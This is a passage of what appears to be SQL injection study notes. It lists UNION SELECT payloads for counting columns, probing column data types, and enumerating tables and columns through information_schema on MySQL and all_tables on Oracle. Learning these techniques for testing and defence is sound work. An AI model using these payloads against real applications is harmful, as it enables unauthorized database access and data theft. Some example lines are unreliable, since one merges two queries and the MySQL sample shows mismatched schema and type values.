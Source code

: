 ***

**Second way**: submitting a series of `UNION SELECT` payloads specifying a different number of null values. NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

<pre class="language-sql"><code class="lang-sql">' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
<strong>-- etc.
</strong></code></pre>

{% hint style="info" %}
**Note**: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results
{% endhint %}

### <mark style="color:yellow;">Column data types</mark>

Do you want a string?

```sql
' UNION SELECT 'a',NULL,NULL,NULL-- -
' UNION SELECT NULL,'a',NULL,NULL-- -
' UNION SELECT NULL,NULL,'a',NULL-- -
' UNION SELECT NULL,NULL,NULL,'a'-- -
```

If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

### <mark style="color:yellow;">Examining database</mark>

* `' UNION SELECT @@version--`
* Most database types (except Oracle) have a set of views called the information schema

```markdown
# MySQL
# information_schema.tables
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    TABLE_TYPE
MyDatabase       dbo             Products      BASE TABLE

# information_schema.columns
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    COLUMN_NAME    DATA_TYPE
MyDatabase       dbo             Users          UserId        id

# Find tables names
SELECT * FROM information_schema.tables
# Find columns names
SELECT * FROM information_schema.columns WHERE table_name = 'Users'SELECT * FROM information_schema.tables


# Oracle
SELECT * FROM all_tables
SELECT TABLE_NAME FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'
```
